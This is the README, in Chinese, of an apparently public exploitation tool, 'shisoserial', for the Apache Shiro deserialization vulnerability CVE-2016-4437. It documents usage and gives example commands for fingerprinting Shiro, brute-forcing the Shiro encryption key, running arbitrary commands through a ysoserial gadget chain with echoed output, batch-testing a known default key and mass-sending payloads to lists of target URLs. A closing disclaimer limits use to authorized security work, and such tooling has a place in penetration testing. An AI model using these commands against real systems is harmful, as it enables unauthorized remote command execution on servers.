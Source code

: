 

# shisoserial

[English Document](https://github.com/4nth0ny1130/shisoserial/blob/master/README-EN.md)

## 这是什么?

一个针对shiro反序列化漏洞(CVE-2016-4437)的快速利用工具

## 贡献者

[4nth0ny](https://github.com/4nth0ny1130) @星期五实验室

## 环境

*   python 3.x

*   JDK 1.8

## 安装

```
python3 -m pip install -r requirements.txt
```

for `AttributeError: module 'Crypto.Cipher.AES' has no attribute 'MODE_GCM'` or `No module named 'Crypto'`

```
python3 -m pip uninstall crypto pycryptodome
python3 -m pip install pycryptodome
```

## 用法

```
usage: shisoserial.py [-h] --mode MODE --url  [--type default:CBC] [--data] [--key] [--gadget] [--command default:whoami] [--proxies] [--ser] [--thread]

This is a simple tool to attack framework shiro with ysoserial

optional arguments:
  -h, --help            show this help message and exit
  --mode MODE, -m MODE  check/crack/yso/echo/encode
  --url , -u            Target URL address or the file containing the target URL
  --type default:CBC, -t default:CBC
                        Cipher Type, GCM or CBC
  --data , -d           Using this parameter will make HTTP request with POST method
  --key , -k            Specify a Shiro Key or will use dictionary brute force cracking
  --gadget , -g         Specific Ysoserial Gadget
  --command default:whoami, -c default:whoami
                        Specific Execute Command
  --proxies , -p        Specific Proxy
  --ser , -s            Specific serialize file name
  --thread , -T         Specific the number of threads
```

## 例子

### 检查目标是否使用shiro框架(使用默认CBC加密)

```
python3 shisoserial.py -m check -u http://127.0.0.1:8080
```

![](README.assets/image-20211229165754332.png)

### 使用代理和CBC加密爆破目标shiro key

```
python3 shisoserial.py -m crack -u http://*.*.*.*:**** -t CBC -p http://*.*.*.*:****/
```

![](README.assets/image-20211229171904315.png)

### 使用CommonsCollectionsK1利用链执行命令并获取命令执行结果

```
python3 shisoserial.py -m echo -u http://127.0.0.1:8080 -g CommonsCollectionsK1 -c id
```

![](README.assets/image-20211229175021680.png)

### 使用Post请求批量验证指定的shiro key

```
python3 shisoserial.py -m crack -u target_urls.txt -k kPH+bIxk5D2deZiIxcaaaA== -d username=1
```

![image-20211229223405240](README.assets/image-20211229223405240.png)

### 使用序列化数据文件构造payload并使用多线程批量发送

```
python3 shisoserial.py -m encode -u target_urls.txt -t cbc -s 1.ser -T 4
```

![image-20211230181021173](README.assets/image-20211230181021173.png)

## 免责声明

本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
